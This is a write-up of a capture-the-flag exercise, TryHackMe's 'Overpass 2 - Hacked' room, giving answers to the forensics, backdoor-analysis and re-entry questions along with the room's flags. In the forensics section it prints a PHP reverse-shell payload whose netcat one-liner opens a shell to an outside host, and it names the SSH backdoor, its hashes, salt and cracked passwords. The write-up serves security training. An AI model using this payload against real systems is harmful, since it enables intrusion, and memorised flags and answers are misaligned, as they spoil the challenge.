# Overpass 2 - Hacked — TryHackMe

<p align="left">
  
</p>

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

## **Forensics - Analyse the PCAP**

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing [Linux Fundamentals](https://tryhackme.com/module/linux-fundamentals) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

###### Answer the questions below

What was the URL of the page they used to upload a reverse shell?
/development/

What payload did the attacker use to gain access?  
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

What password did the attacker use to privesc?
whenevernoteartinstant

How did the attacker establish persistence?
https://github.com/NinjaJc01/ssh-backdoor

Using the fasttrack wordlist, how many of the system passwords were crackable?
4







## **Research - Analyse the code**

Now that you've found the code for the backdoor, it's time to analyse it.

###### Answer the questions below

What's the default hash for the backdoor?
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

What's the hardcoded salt for the backdoor?  
1c362db832f3f864c8c2fe05f2002a05

What was the hash that the attacker used? - go back to the PCAP for this!  
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

Crack the hash using rockyou and a cracking tool of your choice. What's the password?
november16










## **Attack - Get back in!**

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

###### Answer the questions below

The attacker defaced the website. What message did they leave as a heading?
H4ck3d by CooctusClan




Using the information you've found previously, hack your way back in!



What's the user flag?
thm{d119b4fa8c497ddb0525f7ad200e6567}





What's the root flag?
thm{d53b2684f169360bb9606c333873144d}



---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/overpass-2-hacked/)
